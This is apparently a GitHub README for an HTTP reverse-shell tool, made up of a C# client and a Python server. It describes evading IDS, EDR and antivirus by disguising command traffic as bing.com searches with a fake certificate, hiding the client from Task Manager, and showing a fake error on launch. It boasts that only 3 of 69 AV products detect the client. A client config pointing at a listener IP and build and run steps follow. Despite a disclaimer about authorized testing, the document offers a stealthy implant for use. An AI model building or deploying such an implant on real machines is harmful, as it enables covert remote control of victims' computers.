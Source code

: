 # HTTP Asynchronous Reverse Shell

Table of contents

 1. [Introduction](#intro)
 2. [Features](#features)
 3. [Demonstration](#demo)
 4. [Configuration](#config)

------------

### Why ? 
<a name="intro"></a>

Today there are many ways to create a reverse shell in order to be able to remotely control a machine through a firewall. Indeed, outgoing connections are not always filtered.

However security software and hardware (IPS, IDS, Proxy, AV, EDR...) are more and more powerful and can detect these attacks.
Most of the time the connection to a reverse shell is established through a TCP or UDP tunnel.

I figured that the best way to stay undetected would be to make it look like legitimate traffic. 
The HTTP protocol is the most used by a standard user. Moreover it is almost never filtered so as not to block access to websites.

[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Architecture.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Architecture.png?raw=true)

### How it works ?
1) The client app is executed on the target machine.
2) The client initiates the connection with the server.
3) The server accepts the connection.

Then: 
-The client queries the server until it gets instructions.
-The attacker provides instructions to the server.
-When a command is defined, the client executes it and returns the result.

And so on, until the attacker decides to end the session.
[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Concept.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Concept.png?raw=true)

### Disclaimer

This tool is only intended to be a proof of concept demonstration tool for authorized security testing. Make sure you check with your local laws before running this tool.

------------

### Features 
<a name="features"></a>

Today, as a poc, the following functionalities are implemented: 

1. Fake HTTP traffic to appear as searches on bing.com.
2. Commands are base64 encoded in the HTML response.
3. The result of the commands is encoded in base64 as a cookie by the client.
4. SSL support; by default it is a fake bing.com certificate.
5. Random delay between each customer call to avoid triggering IDSs.
6. Random template is used for each response from the server.
7. Re-use of the same powershell process to avoid triggering EDRs.
8. Support for all Cmd and Powershell commands.
9. The client display a fake error message at startup.
10. The client is hidden from tasks manager.
11. The client can be run as an administrator.

##### AV Detection

Only 3 out of 69 products were able to detect the client as malicious, without applying any evasive or obfuscation techniques.

[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/av_detection.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/av_detection.png?raw=true)

------------

### Demonstration
<a name="demo"></a>

#####Client side
[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/client_demo.gif?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/client_demo.gif?raw=true)

#####Server side
[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/server_demo.gif?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/server_demo.gif?raw=true)

------------

### Configuration
<a name="config"></a>

####Client : C Sharp

1. Open *HARS.sln* in Visual Studio

**Config.cs**

This file contains parameters ; Assign the values you want :

    class Config
        {
            // Behavior
            public static bool DisplayErrorMsg = true;
            public static string ErrorMsgTitle = "This application could not be started.";
            public static string ErrorMsgDesc = "Unhandled exception has occured in your application. \r\r Object {0} is not valid.";
            public static int MinDelay = 2;
            public static int MaxDelay = 5;
            public static string Url = "search?q=search+something&qs=n&form=QBRE&cvid=";
            // Listener
            public static string Server = "https://192.168.24.79";
            public static string Port = "443";
            public static bool AllowInsecureCertificate = true;
        }

**HARS.manifest**

Change this line to run by default the client with certain privileges : 

`<requestedExecutionLevel  level="requireAdministrator" uiAccess="false" />`

With
`<requestedExecutionLevel  level="asInvoker" uiAccess="false" />`
or
`<requestedExecutionLevel  level="requireAdministrator" uiAccess="false" />`
or
`<requestedExecutionLevel  level="highestAvailable" uiAccess="false" />`

**Projet properties**

Here you can customize the assembly information and an icon for the file.

[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/project_config.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/project_config.png?raw=true)

Note : Target .NET framework version is 3.5 which is available by default from Windows 7.

#### Build

Build the project from Visual Studio.
The client should be generated in `Http Asynchronous Reverse Shell\HARS_Client\HARS\bin\Release` folder.

**Done!**

------------

####Server : Python

**HARS_Server.py**
Location : `Http Asynchronous Reverse Shell\HARS_Server\www`

Simply change the port or location on the certificate if needed in the config section.

    # Config
    PORT = 443
    CERT_FILE = '../server.pem'

#### Run

`python HARS_Server.py`

#### Notes
-HTTP Logs are located in `Http Asynchronous Reverse Shell\HARS_Server\logs`
-You can add your own templates (any html page) in `Http Asynchronous Reverse Shell\HARS_Server\templates`

------------
@onSec-fr